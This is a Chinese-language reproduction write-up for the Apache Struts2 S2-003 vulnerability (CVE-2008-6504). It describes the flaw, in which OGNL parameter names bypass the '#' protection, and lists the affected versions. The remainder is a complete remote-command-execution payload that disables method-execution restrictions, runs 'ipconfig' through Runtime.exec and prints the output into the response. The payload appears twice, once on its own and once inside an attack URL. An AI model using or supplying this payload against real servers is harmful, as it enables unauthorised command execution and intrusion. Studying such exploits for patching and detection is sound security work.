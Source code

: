 
# （CVE-2008-6504）S2-003

## 一、漏洞简介

OGNL还提供了广泛的表达式评估功能（http://www.ognl.org/2.6.9/Documentation/html/LanguageGuide/expressionEvaluation.html）。该漏洞允许恶意用户绕过ParametersInterceptor内置的“＃”使用保护，从而能够操纵服务器端上下文对象。

所以，例如，要将＃session.user设置为'0wn3d'，可以使用以下参数名称：

（'\ u0023'+'session 'user ' '）（未使用）= 0wn3d

网址编码后会显示如下：
（'\ u0023'％20％2b％20'session 'user \ '））（未使用）= 0wn3d

## 二、漏洞影响

Struts 2.0.0 - Struts 2.0.11.2

## 三、复现过程

其实S2-003是S2-005的前身，他的POC即为S-005的缩小版，因为S2-003之后官方偷偷修改安全配置，默认让SecurityMemberAccess(管理ognl权限的类)的allowStaticMethodAccess为false，这里简单把S2-005的POC去掉&('\u0023_memberAccess.allowStaticMethodAccess\u003dtrue')(bla)(bla)这句话

```
?('\u0023context[\'xwork.MethodAccessor.denyMethodExecution\']\u003dfalse')(bla)(bla)&('\u0023_memberAccess.excludeProperties\u003d@java.util.Collections@EMPTY_SET')(kxlzx)(kxlzx)&('\u0023mycmd\u003d\'ipconfig\'')(bla)(bla)&('\u0023myret\u003d@java.lang.Runtime@getRuntime().exec(\u0023mycmd)')(bla)(bla)&(A)(('\u0023mydat\u003dnew\40java.io.DataInputStream(\u0023myret.getInputStream())')(bla))&(B)(('\u0023myres\u003dnew\40byte[51020]')(bla))&(C)(('\u0023mydat.readFully(\u0023myres)')(bla))&(D)(('\u0023mystr\u003dnew\40java.lang.String(\u0023myres)')(bla))&('\u0023myout\u003d@org.apache.struts2.ServletActionContext@getResponse()')(bla)(bla)&(E)(('\u0023myout.getWriter().println(\u0023mystr)')(bla))

```

### 测试网址：

```
http://url:8080/struts2-showcase-2.0.1/showcase.action

```

### 修改后网址：

```
http://url:8080/struts2-showcase-2.0.1/showcase.action?('\u0023context[\'xwork.MethodAccessor.denyMethodExecution\']\u003dfalse')(bla)(bla)&('\u0023_memberAccess.excludeProperties\u003d@java.util.Collections@EMPTY_SET')(kxlzx)(kxlzx)&('\u0023mycmd\u003d\'ipconfig\'')(bla)(bla)&('\u0023myret\u003d@java.lang.Runtime@getRuntime().exec(\u0023mycmd)')(bla)(bla)&(A)(('\u0023mydat\u003dnew\40java.io.DataInputStream(\u0023myret.getInputStream())')(bla))&(B)(('\u0023myres\u003dnew\40byte[51020]')(bla))&(C)(('\u0023mydat.readFully(\u0023myres)')(bla))&(D)(('\u0023mystr\u003dnew\40java.lang.String(\u0023myres)')(bla))&('\u0023myout\u003d@org.apache.struts2.ServletActionContext@getResponse()')(bla)(bla)&(E)(('\u0023myout.getWriter().println(\u0023mystr)')(bla))

```

直接执行***ipconfig***命令

